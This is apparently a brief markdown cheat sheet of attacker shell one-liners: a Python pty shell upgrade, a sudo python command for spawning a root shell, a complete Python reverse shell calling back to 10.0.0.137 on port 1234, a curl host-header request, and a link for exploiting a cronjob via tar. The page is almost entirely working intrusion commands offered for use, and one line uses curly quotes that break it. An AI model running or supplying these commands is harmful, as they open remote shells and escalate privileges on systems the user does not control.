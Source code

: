 # Python Shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#used to gain root access in some systems.
```
sudo python3.5 -c ‘import os; os.system(“/bin/sh”)’
```
#command used to open up a reverse shell from the browser.
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```
#can be used to find real host name.
```
curl -H 'Host: http://172.16.226.6' "http://172.16.226.6/'"
```
to exploit a cronjob
https://gtfobins.github.io/gtfobins/tar/
